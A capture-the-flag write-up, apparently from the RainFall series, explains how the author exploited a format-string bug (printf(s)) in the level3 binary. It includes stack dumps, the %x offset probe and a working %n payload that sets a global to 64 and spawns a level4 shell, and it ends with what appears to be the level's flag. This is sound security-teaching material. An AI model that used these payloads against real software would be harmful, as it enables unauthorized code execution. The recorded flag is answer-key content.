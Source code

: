 ## Flag3 README: Finding Flag3

After connection on our vm with:
```bash
ssh level3@localhost -p 4242
```
We finded a binary program called level3.
if we decompile it we got this
```C
int v()
{
  int result;
  char s[520];

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```
so we clearly understand that we need to change m to be equal to 64.
firstly we need to decompile it and search for m variable.
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
so we see that the decompilation didn't work
and it s more something like this
```C
result = RandomVariable
if randomvariable == 64 then we continue
```

And there is an known exploit with printf when you make in only print a variable like this :
```C
printf(foo)
```
to be safe he need to be like this :
```C
printf("%s", foo)
```

So let's exploit this.

The idea of the exploit is to print and mofify adress by adding sone %x and %n.
firstly we need to know when you are writing to the stack and at what adress.
So for exemple if if print  AAAA.%x.%x.%x.%x. this is the result :
AAAA.%x.%x.%x.%x.
AAAA.200.b7fd1ac0.b7ff37d0.41414120.
So lets decompile the stack after puting some AAAA inside it.

200 b7fd1ac0 b7ff37d0 is our sequence that are before in the stack. Let's verify it :
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x2e78252e	0x252e7825	0x78252e78
0xbffff530:	0xbf000a2e	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff540:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff588
0xbffff550:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff560:	0x00000098	0x0000000b	0x00000000	0x00000000
0xbffff570:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff580:	0x00000000	0xb7fe765d	0xb7e3ebaf	0x080482bb

So we can see that our sequence is locating in here :
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0


0xbffff520:	0x41414141 this is our 4 A

Then we will have to put the target adress (0x804988c) at the begining in the payload by replacing the AAAA it will be write in the stack at the positions 5 let's check it:

python -c 'print("\x8c\x98\x04\x08" + "%20x"*3 + "%n")'
<<< $(python -c 'print("\x8c\x98\x04\x08" + ".%x."*4)')
�.200..b7fd1ac0..b7ff37d0..804988c.

yep we can see that the last is our value puted in the front.

so now lets work with %n that will be writing the length of the string up to that point.

so what we need is to put a lot of charactere before it.And we know that the value we need to search is 64.

and by trying and each time printing the value we realize that was the payload to do :

level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %x. " * 2 + "%43x" + "%n")' > test3
level3@RainFall:~$ cat test3 - | ./level3
� 200.  b7fd1ac0.                                    b7ff37d0
Wait what?!
whoami
level4


b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa